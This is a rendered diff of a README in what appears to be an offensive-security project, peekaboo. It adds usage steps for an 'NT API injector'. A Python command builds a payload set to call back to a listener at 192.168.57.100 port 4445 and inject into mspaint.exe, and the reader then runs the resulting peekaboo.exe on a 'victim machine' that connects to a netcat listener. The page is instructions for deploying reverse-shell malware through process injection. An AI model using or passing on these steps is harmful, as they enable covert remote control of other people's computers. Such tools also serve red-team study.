

Before and after one commit to cocomelonc/peekaboo, a Markdown page: README.md, the part around the change. Shown: that part at 85% size. Drawn GitHub-style; pictures changed too: screenshots/14.png (added), screenshots/15.png (added); blank space fills up the shorter version.

Commit message:
add injector via NT API create section technique

````diff
--- a/README.md
+++ b/README.md
@@ -95,6 +95,21 @@ check your netcat listener:
 
 ![check netcat listener](./screenshots/13.png?raw=true)
 
+## 4. NT API injector
+run python script on linux (for example process `mspaint.exe`):
+```bash
+python3 peekaboo_nt.py -l 192.168.57.100 -p 4445 -e mspaint.exe -m console
+```
+
+![enc and compile nt](./screenshots/15.png?raw=true)
+
+### then on victim machine (windows 10 x64):
+```cmd
+.\peekaboo.exe
+```
+
+![run malware](./screenshots/14.png?raw=true)
+
 ## Issues.
 Tested on:
 1. Attacker machines: Kali linux 2020.1, Windows 10 x64
````
Also changed, not shown: 4 other files.
